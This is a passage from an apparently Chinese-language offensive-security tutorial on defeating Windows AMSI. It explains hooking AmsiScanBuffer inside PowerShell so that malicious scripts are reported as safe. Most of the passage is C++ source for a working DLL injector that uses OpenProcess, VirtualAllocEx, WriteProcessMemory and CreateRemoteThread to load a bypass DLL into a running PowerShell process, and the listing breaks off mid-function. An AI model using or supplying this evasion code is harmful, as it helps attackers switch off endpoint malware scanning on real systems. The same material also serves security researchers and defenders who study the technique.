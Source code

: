 [![](https://xzfile.aliyuncs.com/media/upload/picture/20200702162911-1b18bcba-bc3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200702162911-1b18bcba-bc3e-1.png)

*   可以看到我们绕过了 amsi 的内容检测，现在来思考如何关闭 AMSI 对恶意 powershell 脚本的拦截，这里可使用进程注入方式将 amsibypass.dll 注入到 powershell 进程（同样 amsi.dll 也注入进去了），让其 hook 掉 amsi.dll 的 AmsiScanBuffer 函数，让其返回 safe 的信息即可。

### dll 注入

*   dll 是一种类似 PE 的文件格式，然而它不可独立执行，它需要一个 pe 文件在运行的时候去加载，所以我们需要创建一个基础的注射器将 dll 加载并注入到 powershell 进程中。
*   注射器实现可以有多种方式，可以参考如下代码，也可以使用 [injectAllTheThings](https://github.com/fdiskyou/injectAllTheThings)

```
#include <iostream>
#include <windows.h>
#include <TlHelp32.h>

//Opens a handle to process then write to process with LoadLibraryA and execute thread
BOOL InjectDll(DWORD procID, char* dllName) {
    char fullDllName[MAX_PATH];
    LPVOID loadLibrary;
    LPVOID remoteString;

    if (procID == 0) {
        return FALSE;
    }

    HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, procID);
    if (hProc == INVALID_HANDLE_VALUE) {
        return FALSE;
    }

    GetFullPathNameA(dllName, MAX_PATH, fullDllName, NULL);
    std::cout << "[+] Aquired full DLL path: " << fullDllName << std::endl;

    loadLibrary = (LPVOID)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    remoteString = VirtualAllocEx(hProc, NULL, strlen(fullDllName), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);

    WriteProcessMemory(hProc, remoteString, fullDllName, strlen(fullDllName), NULL);
    CreateRemoteThread(hProc, NULL, NULL, (LPTHREAD_START_ROUTINE)loadLibrary, (LPVOID)remoteString, NULL, NULL);

    CloseHandle(hProc);
    return TRUE;
}

//Iterate all process until the name we're searching for matches
//Then return the process ID
DWORD GetProcIDByName(const char* procName) {
    HANDLE hSnap;
    BOOL done;
    PROCESSENTRY32 procEntry;

    ZeroMemory(&procEntry, sizeof(PROCESSENTRY32));
    procEntry.dwSize = sizeof(PROCESSENTRY32);

    hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    done = Process32First(hSnap, &procEntry);
    do {
        if (_strnicmp(procEntry.szExeFile, procName, sizeof(procEntry.szExeFile)) == 0) {
            return procEntry.th32ProcessID;
        }
    } while (Process32Next(hSnap, &procEntry));

```